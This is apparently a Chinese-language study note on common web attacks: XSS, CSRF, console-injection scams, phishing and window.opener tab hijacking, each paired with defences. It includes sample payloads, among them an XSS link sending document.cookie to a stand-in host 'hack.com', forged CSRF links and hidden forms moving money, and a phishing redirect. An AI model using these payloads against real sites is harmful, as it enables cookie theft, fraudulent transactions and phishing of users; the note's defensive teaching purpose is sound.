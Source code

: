 # xss 攻击

跨站脚本攻击，通过 js 注入获取用户信息的一种手段

## 几种攻击类型

### 存储后台访问

#### 原理：把注入的代码字符串存储到后端，每一个访问这个包含注入代码的页面的时候，会执行注入的代码。

#### 实际操作

1. 注入<script></script>,js 获取 cookie 并发送到黑客网站
2. 注入<img onerror='javscript:'>字符串,onerror 执行 js 获取 cookie 并发送到黑客网站

### url 链接点击

提供一个 url 地址，注入了 JavaScript 代码，通过让别人点击获取信息。

    <a href='http://target.html?username=<script>window.open('http://hack.com?cookie='+ document.cookie)>

## 具体攻击方式

通过 js 获取 cookie 或页面信息，然后带着信息访问自己的服务器

## 如何保护

1. 用户提交信息进行转义：对<>括号进行转义，防止浏览器认为是标签.对\进行转义，防止攻击者使用 unicode 伪装<>括号。
2. 跳转链接 url 进行检测与转义
3. cookie 设置成 http only，禁止使用 js 获取 cookie

# csrf 攻击

跨站请求伪造，通过在别的站点伪造 get 或 post 请求从而实现原站点功能

## get 攻击

如果原站点使用 get 提交信息，那么我可以在别的站点造一个伪造 get

    原站点：http://origin.com/useMoney?name=zcs&money=100
    <a href="http://origin.com/useMoney?name=zcs&money=999999">点我看相册</a>

## post 攻击

造一个隐藏的 post 请求：

    原站点：http://origin.com/getMoney
    post: {
    name: zcs,
    money: 100,
    }

    <form action='http://origin.com/useMoney'>
        <input type='hidden' name='zcs' value='zcs' >
        <input type='hidden' name='money' value='999999' >
        <button type='submit' >
            点我看相册
        </button>

    </from>

## 解决方法

1. 提交时候使用验证码
2. 原站每个 session 生成一个 token，提价时候 token 必须一致才行
3. 服务端检测请求源域名是否和原站一致

# 控制台注入

通过诱骗：打开 F12，输入下面代码并执行，可以获得 xx 元礼品之类的。

## 解决方法

在 console 里进行安全警告

# 钓鱼网站

打开一个很类似的假网站诱骗用户输入信息

## 方式

1.  直接打开类

        <a href='http://faketobao.com'>淘宝</a>

2.  利用 a 标签的 target='\_blank'漏洞

        使用<a target='_blank'>标签打开的页面，可以通过 window.opener 获得原页面 window 对象，然后执行 window.opener.location='http://faketaobao.com'定位到钓鱼网站，神不知鬼不觉

## 解决方法

1. 使用 window.open 替代<a target="_black">打开
2. 使用<a target="_black" rel='noopener noreferer'>防止获取父页面的 window 对象
